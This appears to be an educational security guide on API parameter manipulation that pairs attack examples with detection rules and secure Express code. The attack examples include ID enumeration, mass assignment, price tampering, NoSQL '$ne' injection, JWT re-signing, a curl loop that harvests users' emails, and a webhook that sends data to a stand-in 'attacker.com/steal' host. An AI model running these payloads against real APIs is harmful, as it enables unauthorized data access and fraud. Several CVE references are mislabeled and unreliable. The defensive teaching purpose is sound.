



# Parameter Manipulation

> **Parameter manipulation is the practice of altering API request parameters—in URLs, headers, bodies, or cookies—to bypass security controls, escalate privileges, access unauthorized data, or trigger unintended application behavior.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine you're at a restaurant and place an order using a form. The form has fields like:

- **Item:** Burger
- **Size:** Medium
- **Price:** $10
- **Discount:** 0%

Now imagine the waiter doesn't actually verify what you write—they just accept whatever's on the form and send it to the kitchen.

What if you changed:
- **Discount:** 100%
- **Price:** $1
- **Item:** Lobster

If the kitchen blindly follows the form without checking, you just manipulated parameters to get something you shouldn't.

**APIs work the same way.** They accept parameters from clients, and if they don't validate, sanitize, or verify them properly, attackers can:

- Change prices in e-commerce APIs
- Modify user roles from `user` to `admin`
- Access other users' data by changing ID parameters
- Bypass rate limits or content filters
- Inject malicious payloads
- Alter business logic flow

The core issue: **trusting client-controlled data without proper server-side validation**.

---

## 🎯 Why Parameter Manipulation Matters in API Security

Unlike traditional web apps where much of the logic runs server-side and renders HTML, **APIs expose direct programmatic access to backend systems**. This means:

### 1. **Parameters Are Everywhere**

APIs accept input through multiple channels:
- URL path segments
- Query strings
- Headers
- Request body (JSON, XML, form data)
- Cookies
- GraphQL variables
- gRPC message fields

Each one is a potential attack vector.

### 2. **Stateless Design Increases Risk**

RESTful APIs are typically stateless, meaning each request must carry all necessary context. This forces APIs to trust client-supplied parameters for critical decisions like:
- Which user is making the request
- Which resource to access
- What action to perform
- Rate limiting counters
- Pagination offsets

### 3. **Machine-to-Machine Trust Assumptions**

Developers sometimes assume that because an API is meant for app-to-app communication, clients won't be malicious. This is false. Attackers can:
- Reverse engineer mobile apps
- Intercept and modify API calls
- Build custom clients
- Replay and manipulate requests

### 4. **Complex Business Logic**

Modern APIs often encode complex business rules that depend on parameter combinations. Testing all edge cases is difficult, and attackers look for the gaps.

---

## 🔍 Parameter Types and Attack Surface

```mermaid
graph TD
    A[API Request] --> B[Path Parameters]
    A --> C[Query Parameters]
    A --> D[Headers]
    A --> E[Body Parameters]
    A --> F[Cookies]
    
    B --> B1[Resource IDs]
    B --> B2[Actions/Operations]
    
    C --> C1[Filters & Search]
    C --> C2[Pagination]
    C --> C3[Sorting]
    C --> C4[Feature Flags]
    
    D --> D1[Authentication Tokens]
    D --> D2[Content-Type]
    D --> D3[Custom Headers]
    D --> D4[API Keys]
    
    E --> E1[JSON/XML Objects]
    E --> E2[Arrays]
    E --> E3[Nested Properties]
    E --> E4[Hidden Fields]
    
    F --> F1[Session IDs]
    F --> F2[Tracking Data]
    F --> F3[Preferences]
    
    style A fill:#4CAF50,color:#fff
    style B fill:#FF9800,color:#fff
    style C fill:#FF9800,color:#fff
    style D fill:#FF9800,color:#fff
    style E fill:#FF9800,color:#fff
    style F fill:#FF9800,color:#fff
```



### Detailed Attack Surface Map

| Parameter Location | Examples | Common Manipulation Targets | Risk Level |
|-------------------|----------|----------------------------|------------|
| **Path** | `/api/users/{userId}/orders/{orderId}` | User IDs, resource IDs, version numbers | 🔴 High |
| **Query String** | `?filter=admin&limit=100&debug=true` | Filters, limits, boolean flags, sort order | 🟡 Medium-High |
| **Headers** | `X-User-ID`, `X-Role`, `Authorization` | Role headers, internal routing, auth tokens | 🔴 Critical |
| **JSON Body** | `{"role": "user", "isAdmin": false}` | Hidden fields, mass assignment, nested objects | 🔴 High |
| **Cookies** | `session=abc123; role=user` | Session tokens, preference flags, pricing data | 🟡 Medium |
| **GraphQL Variables** | `{"userId": 123, "includePrivate": true}` | Access control flags, depth limits | 🔴 High |

---

## 🏗️ How Parameter Manipulation Works (Technical Deep Dive)

### Attack Flow Model



### Step-by-Step Attack Process

**Step 1: Reconnaissance**
- Capture normal API traffic using a proxy (Burp Suite, OWASP ZAP, mitmproxy)
- Document all parameters across different endpoints
- Identify parameter naming patterns
- Map parameters to backend behavior

**Step 2: Identify Manipulation Targets**
- Look for parameters that control:
  - User identity (`userId`, `customerId`, `accountId`)
  - Access levels (`role`, `isAdmin`, `permissions`)
  - Pricing (`price`, `discount`, `total`)
  - Filtering (`where`, `filter`, `search`)
  - Pagination (`limit`, `offset`, `page`)
  - Feature flags (`debug`, `beta`, `admin_mode`)

**Step 3: Fuzz and Probe**
- Test boundary values
- Try negative numbers, very large numbers
- Test boolean inversions (`true` → `false`)
- Add unexpected parameters
- Remove expected parameters
- Change data types

**Step 4: Exploit Logic Flaws**
- Escalate privileges
- Access other users' data
- Bypass payment verification
- Circumvent rate limits
- Trigger admin features

---

## 🎭 Common Parameter Manipulation Attack Patterns

### 1. **Horizontal Privilege Escalation (BOLA)**

**Vulnerability:** Changing resource IDs to access other users' data at the same privilege level.

```http
# Normal request
GET /api/users/1001/orders HTTP/1.1
Authorization: Bearer <user1001_token>

# Manipulated request
GET /api/users/1002/orders HTTP/1.1
Authorization: Bearer <user1001_token>
```

**Result:** User 1001 accesses User 1002's orders.

---

### 2. **Vertical Privilege Escalation**

**Vulnerability:** Modifying role or permission parameters to gain higher privileges.

```json
// Original request body
{
  "username": "attacker",
  "email": "attacker@example.com"
}

// Manipulated request body
{
  "username": "attacker",
  "email": "attacker@example.com",
  "role": "admin",
  "isAdmin": true,
  "permissions": ["read", "write", "delete", "admin"]
}
```

**Result:** Mass assignment vulnerability allows attacker to set admin role.

---

### 3. **Hidden Parameter Discovery**

**Vulnerability:** APIs may accept undocumented parameters.

```http
# Published API endpoint
GET /api/products?category=electronics

# Trying hidden parameters
GET /api/products?category=electronics&debug=true
GET /api/products?category=electronics&showHidden=true
GET /api/products?category=electronics&includeDeleted=true
GET /api/products?category=electronics&admin=1
```

**Result:** Debug mode reveals sensitive info, hidden products, or admin data.

---

### 4. **Price and Quantity Manipulation**

**Vulnerability:** E-commerce APIs that trust client-sent pricing.

```json
// Original cart submission
{
  "productId": "PRD-123",
  "quantity": 1,
  "price": 99.99,
  "discount": 0,
  "total": 99.99
}

// Manipulated
{
  "productId": "PRD-123",
  "quantity": 1,
  "price": 0.01,
  "discount": 100,
  "total": 0.01
}
```

**Result:** Purchase expensive items for pennies.

---

### 5. **Filter and Search Bypass**

**Vulnerability:** Manipulating filter parameters to bypass content restrictions.

```http
# Normal user search
GET /api/search?q=public&filter=approved

# Manipulated
GET /api/search?q=*&filter=all
GET /api/search?q=confidential&filter=none
GET /api/search?q=*&includePrivate=true
```

**Result:** Access to restricted or unapproved content.

---

### 6. **Pagination and Limit Exploitation**

**Vulnerability:** APIs that don't enforce maximum limits.

```http
# Normal pagination
GET /api/users?page=1&limit=10

# DoS or data exfiltration
GET /api/users?page=1&limit=999999
GET /api/users?page=-1&limit=-1
GET /api/users?offset=0&limit=2147483647
```

**Result:** Dump entire database or cause resource exhaustion.

---

### 7. **HTTP Header Manipulation**

**Vulnerability:** Trusting custom headers for authorization or routing.

```http
# Original headers
GET /api/admin/users HTTP/1.1
Host: api.example.com
Authorization: Bearer <user_token>

# Manipulated headers
GET /api/admin/users HTTP/1.1
Host: api.example.com
Authorization: Bearer <user_token>
X-User-Role: admin
X-Original-User: admin
X-Forwarded-For: 127.0.0.1
X-Admin: true
```

**Result:** Bypass role checks or IP restrictions.

---

### 8. **Type Confusion**

**Vulnerability:** Changing parameter data types to bypass validation.

```json
// Expected: string
{"userId": "user123"}

// Manipulated: array (for SQL injection or logic bypass)
{"userId": ["user123", "OR 1=1--"]}

// Manipulated: object
{"userId": {"$ne": null}}

// Manipulated: boolean
{"userId": true}
```

**Result:** Bypass filters, trigger NoSQL injection, or cause errors that leak info.

---

### 9. **Callback and Redirect Manipulation**

**Vulnerability:** APIs accepting callback URLs without validation.

```http
# OAuth callback manipulation
GET /oauth/authorize?redirect_uri=https://attacker.com

# Webhook manipulation
POST /api/webhooks
{
  "url": "https://attacker.com/steal",
  "events": ["user.created", "payment.received"]
}
```

**Result:** Credential theft, SSRF, or data exfiltration.

---

### 10. **Time-Based Manipulation**

**Vulnerability:** Manipulating timestamps, expiry dates, or scheduling parameters.

```json
// Subscription expiry
{
  "userId": 123,
  "subscriptionEnd": "2099-12-31T23:59:59Z"
}

// Backdated transaction
{
  "transactionDate": "1970-01-01T00:00:00Z",
  "amount": -1000
}
```

**Result:** Extend subscriptions indefinitely or manipulate financial records.

---

## 🛠️ Tools for Parameter Manipulation

| Tool | Purpose | Key Features |
|------|---------|--------------|
| **Burp Suite** | Intercept and modify requests | Repeater, Intruder, Param Miner, Active Scan |
| **OWASP ZAP** | Open-source proxy | Fuzzer, API scanner, scripting |
| **mitmproxy** | Scriptable proxy | Python scripts for automated manipulation |
| **Postman** | API client | Request builder, environment variables |
| **curl** | Command-line HTTP client | Manual parameter testing |
| **ffuf** | Fast fuzzing tool | Parameter discovery, value fuzzing |
| **Arjun** | Parameter discovery | Find hidden parameters |
| **ParamSpider** | Parameter mining | Extract parameters from web archives |
| **x8** | Hidden parameter discovery | Fast parameter bruteforcing |

### Burp Suite: Parameter Manipulation Workflow

```bash
# 1. Setup Burp as proxy
# 2. Intercept request
# 3. Send to Repeater for manual testing
# 4. Send to Intruder for automated fuzzing

# Example: Fuzz userId parameter
# Position: userId=§1001§
# Payload: Numbers 1-2000
# Analyze responses for 200 OK with different data
```

### Command-Line Parameter Testing

```bash
# Test different user IDs
for id in {1..100}; do
  curl -s "https://api.example.com/users/$id/profile" \
    -H "Authorization: Bearer $TOKEN" \
    | jq '.email' >> emails.txt
done

# Fuzz query parameters
ffuf -u "https://api.example.com/search?FUZZ=admin" \
  -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200

# Test hidden parameters with Arjun
arjun -u https://api.example.com/api/users \
  -m GET \
  -H "Authorization: Bearer $TOKEN"

# Automated parameter pollution testing
parameth -u https://api.example.com/endpoint \
  -t methods-get-post-put
```

---

## 🎯 Real-World Exploitation Scenarios

### Scenario 1: E-Commerce Price Manipulation

```http
POST /api/checkout HTTP/1.1
Host: shop.example.com
Content-Type: application/json

{
  "cartId": "cart_abc123",
  "items": [
    {
      "productId": "LAPTOP-X1",
      "quantity": 1,
      "price": 1299.99,      ← Manipulated from 1299.99 to 0.01
      "total": 0.01
    }
  ],
  "grandTotal": 0.01
}
```

**Exploitation Steps:**
1. Add item to cart normally
2. Intercept checkout request
3. Modify `price` and `total` fields
4. Server processes payment for $0.01
5. Order ships at full value

**Why it works:** Backend trusts client-sent price instead of recalculating from database.

---

### Scenario 2: JWT Claims Manipulation

```json
// Original JWT payload (decoded)
{
  "sub": "user123",
  "role": "user",
  "exp": 1735689600
}

// Manipulated (before re-signing with weak key or 'none' algorithm)
{
  "sub": "user123",
  "role": "admin",
  "exp": 2735689600
}
```

**Exploitation Steps:**
1. Capture JWT from response
2. Decode payload (base64)
3. Modify `role` to `admin`
4. Re-sign with:
   - `none` algorithm (if accepted)
   - Weak/default secret (if bruteforceable)
   - Confusion attack (RS256 → HS256)
5. Send modified JWT in Authorization header

---

### Scenario 3: GraphQL Variable Manipulation

```graphql
# Normal query
query GetUser($id: ID!, $includePrivate: Boolean = false) {
  user(id: $id) {
    name
    email
    privateData @include(if: $includePrivate)
  }
}

# Variables
{
  "id": "user_123",
  "includePrivate": false
}

# Manipulated variables
{
  "id": "user_admin",
  "includePrivate": true
}
```

**Result:** Access admin user's private data by manipulating GraphQL variables.

---

### Scenario 4: Filter Injection via Query Parameters

```http
# Normal request
GET /api/users?department=Engineering

# Manipulated (NoSQL injection)
GET /api/users?department[$ne]=Engineering

# Backend code (vulnerable)
db.users.find({ department: req.query.department })

# Actual query executed
db.users.find({ department: { $ne: "Engineering" } })
```

**Result:** Returns all users EXCEPT Engineering department, bypassing intended filter.

---

## 🔬 Testing Methodology



### Systematic Testing Checklist

**Phase 1: Discovery**
- [ ] Capture all API requests during normal usage
- [ ] Extract all parameters from paths, queries, headers, bodies
- [ ] Document parameter names, types, expected values
- [ ] Identify parameter patterns (e.g., `userId`, `isAdmin`, `price`)

**Phase 2: Classification**
- [ ] Identity parameters (`userId`, `accountId`)
- [ ] Authorization parameters (`role`, `permissions`, `isAdmin`)
- [ ] Pricing parameters (`price`, `discount`, `total`)
- [ ] Filter parameters (`where`, `filter`, `search`)
- [ ] Pagination (`limit`, `offset`, `page`)
- [ ] Feature flags (`debug`, `beta`, `internal`)

**Phase 3: Manipulation Testing**

For each parameter:
- [ ] Change to different valid value (test access control)
- [ ] Use extreme values (0, -1, 999999, NULL)
- [ ] Try different data types (string → array, int → boolean)
- [ ] Add array/object notation (`param[0]`, `param[key]`)
- [ ] Test empty value, missing parameter
- [ ] Inject special characters (`'`, `"`, `<`, `>`, `$`, `{}`)
- [ ] Test case sensitivity (`Admin` vs `admin`)

**Phase 4: Hidden Parameter Discovery**
- [ ] Use Arjun, ParamSpider, Param Miner
- [ ] Test common parameter names (debug, test, admin, internal)
- [ ] Check documentation vs actual accepted parameters
- [ ] Test HTTP method override (`_method`, `X-HTTP-Method-Override`)

**Phase 5: Response Analysis**
- [ ] Compare response status codes
- [ ] Compare response bodies for data differences
- [ ] Check response timing (time-based inference)
- [ ] Monitor error messages for info disclosure
- [ ] Verify authorization is enforced server-side

---

## 🔍 Detection and Monitoring

### Log Indicators

```log
# Suspicious parameter patterns to monitor
2024-01-15 10:32:11 | userId=1 | → userId=2 | Same session token
2024-01-15 10:32:12 | userId=3 | → userId=4 | Sequential ID enumeration
2024-01-15 10:32:13 | role=user | → role=admin | Role escalation attempt
2024-01-15 10:32:14 | limit=10 | → limit=999999 | Excessive limit
2024-01-15 10:32:15 | price=99.99 | → price=0.01 | Price manipulation
```

### Detection Rules

**SIEM Detection Patterns:**

```yaml
# Rapid parameter enumeration
- name: User ID Enumeration
  condition: 
    - same source IP
    - same endpoint pattern (/users/{id})
    - different ID values
    - threshold: >50 requests in 60 seconds

# Role manipulation attempt
- name: Privilege Escalation Attempt
  condition:
    - request body contains: role, isAdmin, permissions, admin
    - user's actual role != requested role
    - trigger: immediate alert

# Price manipulation
- name: E-commerce Price Tampering
  condition:
    - checkout/payment endpoint
    - price in request < 10% of catalog price
    - trigger: block transaction + alert

# Excessive pagination
- name: Data Exfiltration via Pagination
  condition:
    - limit parameter > configured max
    - or: limit < 0
    - or: offset > reasonable boundary
```

### Real-Time Indicators

| Indicator | Detection Method | Response |
|-----------|-----------------|----------|
| Sequential ID iteration | Rate + pattern analysis | Throttle + alert |
| Parameter addition | Compare to API schema | Log + investigate |
| Type changes | JSON schema validation | Reject request |
| Price discrepancies | Compare to product DB | Block + alert |
| Role claims mismatch | JWT vs database comparison | Deny + log |
| Excessive limits | Threshold enforcement | Cap + warn |

---

## 🛡️ Mitigation and Defense

### Defense-in-Depth Strategy



### 1. **Input Validation**

```javascript
// ❌ VULNERABLE: Trust client input
app.post('/api/users', (req, res) => {
  const user = new User(req.body); // Accepts any field!
  user.save();
});

// ✅ SECURE: Explicit whitelisting
app.post('/api/users', (req, res) => {
  const { username, email } = req.body; // Only expected fields
  
  // Validate types and formats
  if (typeof username !== 'string' || username.length > 50) {
    return res.status(400).json({ error: 'Invalid username' });
  }
  
  if (!isValidEmail(email)) {
    return res.status(400).json({ error: 'Invalid email' });
  }
  
  const user = new User({ username, email }); // No mass assignment
  user.save();
});
```

### 2. **Schema Validation**

```javascript
// Using JSON Schema validation
const Ajv = require('ajv');
const ajv = new Ajv();

const userSchema = {
  type: 'object',
  properties: {
    username: { type: 'string', minLength: 3, maxLength: 50 },
    email: { type: 'string', format: 'email' },
    age: { type: 'integer', minimum: 0, maximum: 150 }
  },
  required: ['username', 'email'],
  additionalProperties: false // Reject unexpected fields
};

const validate = ajv.compile(userSchema);

app.post('/api/users', (req, res) => {
  if (!validate(req.body)) {
    return res.status(400).json({ errors: validate.errors });
  }
  // Process validated data
});
```

### 3. **Authorization Enforcement**

```javascript
// ❌ VULNERABLE: No ownership check
app.get('/api/orders/:orderId', authenticate, (req, res) => {
  const order = await Order.findById(req.params.orderId);
  res.json(order); // Returns ANY order if it exists
});

// ✅ SECURE: Verify ownership
app.get('/api/orders/:orderId', authenticate, async (req, res) => {
  const order = await Order.findById(req.params.orderId);
  
  if (!order) {
    return res.status(404).json({ error: 'Order not found' });
  }
  
  // Critical: Check ownership
  if (order.userId !== req.user.id && !req.user.isAdmin) {
    return res.status(403).json({ error: 'Access denied' });
  }
  
  res.json(order);
});
```

### 4. **Server-Side Calculation**

```javascript
// ❌ VULNERABLE: Trust client-sent price
app.post('/api/checkout', async (req, res) => {
  const { items } = req.body;
  const total = req.body.total; // ⚠️ Client controls price!
  
  await processPayment(total);
});

// ✅ SECURE: Always recalculate
app.post('/api/checkout', async (req, res) => {
  const { items } = req.body;
  
  let calculatedTotal = 0;
  for (const item of items) {
    // Fetch real price from database
    const product = await Product.findById(item.productId);
    calculatedTotal += product.price * item.quantity;
  }
  
  // Apply server-side discounts if any
  calculatedTotal = applyDiscounts(req.user, calculatedTotal);
  
  await processPayment(calculatedTotal); // Use calculated value
});
```

### 5. **Parameter Whitelisting**

```javascript
// Using express-validator
const { body, validationResult } = require('express-validator');

app.put('/api/profile', 
  authenticate,
  [
    // Explicit whitelist
    body('username').isString().trim().isLength({ min: 3, max: 50 }),
    body('email').isEmail().normalizeEmail(),
    body('bio').optional().isString().isLength({ max: 500 }),
    
    // Forbidden fields
    body('role').not().exists().withMessage('Cannot modify role'),
    body('isAdmin').not().exists().withMessage('Cannot modify admin status'),
    body('id').not().exists().withMessage('Cannot modify ID')
  ],
  async (req, res) => {
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ errors: errors.array() });
    }
    
    // Safe to update
    await User.update(req.user.id, {
      username: req.body.username,
      email: req.body.email,
      bio: req.body.bio
    });
  }
);
```

### 6. **Rate Limiting & Throttling**

```javascript
const rateLimit = require('express-rate-limit');

// Prevent rapid parameter enumeration
const strictLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 100, // Limit each IP to 100 requests per window
  standardHeaders: true,
  legacyHeaders: false,
  
  // Custom key generator to detect suspicious patterns
  keyGenerator: (req) => {
    return `${req.ip}:${req.path}`;
  },
  
  handler: (req, res) => {
    res.status(429).json({
      error: 'Too many requests, please try again later.'
    });
  }
});

app.use('/api/', strictLimiter);
```

### 7. **Audit Logging**

```javascript
// Log all parameter changes for security monitoring
function auditLog(req, action, details) {
  logger.info({
    timestamp: new Date().toISOString(),
    userId: req.user?.id,
    ip: req.ip,
    action: action,
    endpoint: req.path,
    method: req.method,
    params: req.params,
    query: req.query,
    body: sanitizeForLog(req.body), // Remove sensitive data
    details: details
  });
}

// Usage
app.post('/api/admin/users/:userId/promote', authenticate, authorize('admin'), (req, res) => {
  auditLog(req, 'USER_PROMOTION', { 
    targetUserId: req.params.userId,
    newRole: req.body.role 
  });
  
  // Perform action
});
```

### 8. **Content Security Policy for API Responses**

```javascript
// Prevent response manipulation attacks
app.use((req, res, next) => {
  res.setHeader('X-Content-Type-Options', 'nosniff');
  res.setHeader('X-Frame-Options', 'DENY');
  res.setHeader('Content-Type', 'application/json; charset=utf-8');
  next();
});
```

---

## 📋 Security Checklist

### Development Phase

- [ ] Define explicit API schemas (OpenAPI, JSON Schema)
- [ ] Implement schema validation middleware
- [ ] Use parameter whitelisting, not blacklisting
- [ ] Never trust client-sent business values (prices, roles, permissions)
- [ ] Always recalculate server-side
- [ ] Implement object-level authorization checks
- [ ] Use parameterized queries / ORMs properly
- [ ] Set maximum limits for pagination
- [ ] Validate data types strictly
- [ ] Reject unexpected parameters
- [ ] Use DTOs (Data Transfer Objects) to control allowed fields
- [ ] Implement role-based access control (RBAC)
- [ ] Log all parameter modifications
- [ ] Use rate limiting

### Testing Phase

- [ ] Fuzz all parameters with unexpected values
- [ ] Test sequential ID enumeration
- [ ] Attempt horizontal privilege escalation
- [ ] Attempt vertical privilege escalation
- [ ] Test price/quantity manipulation
- [ ] Try adding hidden parameters
- [ ] Test type confusion (string → array, etc.)
- [ ] Verify schema validation is enforced
- [ ] Check authorization on every endpoint
- [ ] Test negative/zero/extreme values
- [ ] Verify server-side calculations
- [ ] Test parameter pollution
- [ ] Check HTTP verb tampering
- [ ] Test header manipulation

### Deployment Phase

- [ ] Enable API gateway validation
- [ ] Configure WAF rules for suspicious patterns
- [ ] Set up SIEM alerts for parameter anomalies
- [ ] Monitor for sequential access patterns
- [ ] Track failed authorization attempts
- [ ] Review audit logs regularly
- [ ] Implement automated response for suspicious activity
- [ ] Use API runtime protection tools

---

## 🎓 Advanced Topics

### Parameter Pollution (HPP)

HTTP Parameter Pollution occurs when multiple parameters with the same name are sent, and different backend systems interpret them differently.

```http
GET /api/transfer?from=user1&to=user2&amount=100&to=attacker HTTP/1.1

# Different interpretations:
# PHP: Uses last value → to=attacker
# ASP.NET: Concatenates → to=user2,attacker
# Node.js: Creates array → to=['user2', 'attacker']
```

**Defense:** Reject requests with duplicate parameters or use framework-specific sanitization.

### JSON Parameter Smuggling

```json
// Client sends
{
  "username": "attacker",
  "role": "user"
}

// But also in nested or alternative encoding
{
  "username": "attacker",
  "role": "user",
  "user": {
    "role": "admin"
  }
}
```

**Defense:** Strict schema validation with `additionalProperties: false`.

### GraphQL-Specific Parameter Attacks

```graphql
# Batch query abuse
query {
  user1: user(id: "1") { email }
  user2: user(id: "2") { email }
  user3: user(id: "3") { email }
  # ... repeat 1000 times
}

# Alias-based enumeration
query {
  a: product(id: 1) { price }
  b: product(id: 2) { price }
  c: product(id: 3) { price }
}
```

**Defense:** Query complexity analysis, depth limiting, rate limiting per resolver.

---

## 📚 References

### OWASP Resources
- [OWASP API Security Top 10 2023](https://owasp.org/API-Security/editions/2023/en/0x11-t10/)
- [OWASP Testing Guide - Parameter Manipulation](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution)
- [OWASP Mass Assignment Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)

### Security Research
- [PortSwigger Web Security Academy - Server-side Parameter Pollution](https://portswigger.net/web-security/ssrf/server-side-parameter-pollution)
- [HackerOne Parameter Tampering Reports](https://hackerone.com/reports?search=parameter+manipulation)
- [IDOR Testing Guide - Intigriti](https://blog.intigriti.com/2021/03/17/bug-bytes-116-idor-testing/)

### Tools & Frameworks
- [Burp Suite](https://portswigger.net/burp)
- [OWASP ZAP](https://www.zaproxy.org/)
- [Arjun - Parameter Discovery](https://github.com/s0md3v/Arjun)
- [ffuf - Fast Fuzzer](https://github.com/ffuf/ffuf)

### Standards
- [RFC 7231 - HTTP Semantics](https://datatracker.ietf.org/doc/html/rfc7231)
- [OpenAPI Specification](https://swagger.io/specification/)
- [JSON Schema](https://json-schema.org/)

### CVE Examples
- [CVE-2019-5736 - runc Container Escape via Parameter Manipulation](https://nvd.nist.gov/vuln/detail/CVE-2019-5736)
- [CVE-2020-11022 - jQuery Parameter Pollution](https://nvd.nist.gov/vuln/detail/CVE-2020-11022)
- [CVE-2021-22911 - Rocket.Chat IDOR via Parameter Tampering](https://nvd.nist.gov/vuln/detail/CVE-2021-22911)

---

## 🎯 Key Takeaways

1. **Never trust client input** - Validate, sanitize, and verify every parameter server-side
2. **Whitelist, don't blacklist** - Define exactly what's allowed, reject everything else
3. **Recalculate critical values** - Prices, totals, permissions must be computed server-side
4. **Enforce authorization at object level** - User can access endpoint ≠ user can access this specific resource
5. **Use schemas religiously** - OpenAPI, JSON Schema, and validation middleware are your friends
6. **Log and monitor** - Track parameter changes and unusual access patterns
7. **Defense in depth** - Multiple validation layers catch what one layer might miss
8. **Test exhaustively** - Fuzz every parameter with unexpected values, types, and combinations

Parameter manipulation is a foundational attack vector in API security. Understanding it deeply enables both effective exploitation during authorized testing and robust defense in production systems.
